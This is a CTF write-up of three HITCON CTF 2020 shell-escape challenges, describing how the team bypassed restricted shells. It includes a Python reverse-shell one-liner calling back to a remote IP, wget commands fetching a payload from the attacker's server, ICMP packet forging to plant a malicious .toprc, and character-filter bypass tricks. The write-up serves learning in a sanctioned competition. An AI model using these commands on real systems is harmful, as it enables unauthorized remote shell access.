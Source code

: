 # HITCON CTF 2020 Misc Challenges

This weeked I played HITCON CTF 2020 with the team [Organizers](https://ctftime.org/team/42934). Everyone put in an incredible effort and we were excited to place 5th among the best CTF teams in the world.

![](images/scoreboard.png)

What follows are brief writeups of the very enjoyable Misc shell escape challenges. I learned a lot from these challenges and from sharing ideas with the rest of the team. Several others contributed to solving including jkr, Robin_Jadoul, mrtumble, esrever, and mev.

## oShell (280pts)

#### The Setup
 - We login to an SSH session and have to provide a password and a token to launch a container isolated for our own team. `sshpass -p 'oshell' ssh oshell@54.150.148.61` makes this a little more comfortable.
 - Typing `help`, we only have access to the following programs: `help exit id ping ping6 traceroute traceroute6 arp netstat top htop enable`
 - The `enable` program looks interesting, and it prompts us for a password.

#### Tracing with htop
 - We realise that `htop` has `strace` functionality built-in. In a second SSH session, we can type `s` when selecting the `oShell.py` process which is running `enable`, then see the password in the `readv` syscall there.
 - Using tmux to copy and paste the password into the enable prompt unlocks two new programs `ifconfig` and `tcpdump`.
 - There's a 5 minute timeout for our container, and the enable password changes each time, making this part of the challenge a little frustrating.

#### Command execution with toprc
 - We need to find a way to execute an arbitrary command. We find that `top` uses an `.toprc` file which contains commands that can be used in an obscure "inspect mode", and has some unusual parsing rules which work in our favour.
 - The first line of `.toprc` is ignored, then there's some settings that apparently need to exist, and then there's a line starting `Fixed_widest=0`. Anything appended after that line is ignored unless it matches a line format such as `pipe\txxx\tdate`. That line allows us to run the date command from within top by pressing `Yxxx` to enter "inspect mode".
 - However currently we have no way to write arbitrary data to a file.

#### ICMP echo replies
 - We know that we can write packet capture data with `tcpdump` using its `-w` flag, and that we can put data in ICMP packets using the `ping` command. But the busybox version of ping we have here only supports a single repeated byte in the payload field.
 - The oShell machine does have outbound connectivity though. Therefore we can ping our own box, then forge an ICMP echo reply that contains an entire valid `.toprc` in the payload field.
 - We can tcpdump this echo reply into the oShell user's `.toprc`. As long as the ICMP header doesn't includes a newline character, the packet data (up to the first newline) will be ignored and the `.toprc` packet capture will be valid.
 - [This article](https://subscription.packtpub.com/book/networking_and_servers/9781786467454/1/ch01lvl1sec20/crafting-icmp-echo-replies-with-nping) is helpful in showing how to use nmap's `nping` to forge an echo reply. We should use `sudo bash -c 'echo "1" >  /proc/sys/net/ipv4/icmp_echo_ignore_all'` to disable normal ICMP echo replies from the kernel.

#### The exploit 
 - tcpdump command run on oShell: `tcpdump -i eth0 -w /home/oShell/.toprc -c1 src 46.101.55.21`. The `-c1` tells it to stop recording after a single packet.
 - nping command run on our own box: `sudo nping --icmp -c 1 --icmp-type 0 --icmp-code 0 --source-ip 46.101.55.21 --dest-ip 54.150.148.61 --icmp-seq 0 --data $(cat oshell_payload | xxd -p | tr -d "\n") --icmp-id $ICMP_ID`.
 - The ICMP ID must match the ID of the echo request packet (to pass through the networking stack on the oShell machine), so we also use `sudo tcpdump src 54.150.148.61 and icmp` on our own box to see the incoming ID and adjust the `nping` command accordingly.
 - After sending the echo reply, run `top` and enter `Y`, then running the command should give a reverse shell! From there we can easily call `/readflag`. If it doesn't work there may have been a newline character in the ICMP echo reply header, so we just try again.

Flag: `hitcon{A! AAAAAAAAAAAA! SHAR~K!!!}`


## Baby Shock (201pts)

#### The Setup 
 - We type `help` and find the only available programs are `pwd ls mkdir netstat sort printf exit help id mount df du find history touch`
 - We are inside a Python shell that applies restrictions on our standard input then executes them inside a `busybox sh`.
 - After manual fuzzing, we find that all shell special characters are blocked apart from `.:;()`. It seems we can only use a single `.` in our command line.
 - Our command line must start with one of the allowed programs, but there's not much we can do with them (since dash is blocked we can't use option flags).

#### Command separation
 - We find we can use `;` to terminate a command then run a second command (this can optionally be done inside a subshell with `()`). The second command is not subject to the same program restrictions as the first one.
 - So we can use `pwd ; nc 778385173 4444` to connect to our own server. Decimal IP notation means we can get around the restriction on more than one `.`.
 - We can't plug netcat into a shell as we can't use `-e` or other techniques.

#### Wgetting a shell
 - On our own box we can write a Python reverse shell payload to `index.html` and host it with `python3 -m http.server`:
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("46.101.55.21",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
 - Then we can `pwd ; wget 778385173:8000` to pull down our payload into the wget default filename `index.html`.
 - We execute this with `pwd ; sh index.html` to get a reverse shell with no restrictions.
 - From there we just call the `/getflag` binary.

Flag: `hitcon{i_Am_s0_m155_s3e11sh0ck}`


## Revenge of Baby Shock (230pts)

#### The Setup 
 - The same set of programs are allowed as the previous challenge, however this time we additionally cannot use `.` or `;`.
 - Our previous payload therefore doesn't work at all.

#### Unexpected function definition
 - We discover that we can define a shell function without using the conventional syntax. `pwd ()(echo hello)` then running `pwd` will echo hello. In fact, even `pwd () echo hello` works in the busybox sh, although not when tested locally in bash.
 - The function assignment is permitted as we started our command line with an allowed program. The function we created takes precedence over the `pwd` shell builtin.
 - Now we need to find a way to use arbitrary input to get a reverse shell. The previous `wget` payload won't work as we can't even use a single `.` this time to execute `index.html`.

#### Session recording with script
 - We can open a `script` session to record our interactions inside the shell to a file (`pwd () script f` then `pwd`).
 - Then we connect to our remote server with `pwd () nc 778385173 4444` and type the Python reverse shell payload in on our box.
 - After exiting the session, we'll have a script file `f` including our payload but it will also have some bad lines like `Script started, file is f`

#### Cleaning up with vim
 - We can use `vim` to edit the file! After opening Vim, our input is sent to it (after being parsed for restricted characters).
 - For instance `du dd :wq` will delete a line then save the file. `du` is good to use here as it doesn't do anything in Vim.
 - Once the file has been sufficiently cleaned up, it can be executed like in the previous challenge to give a shell.

Flag: `hitcon{r3v3ng3_f0r_semic010n_4nd_th4nks}`
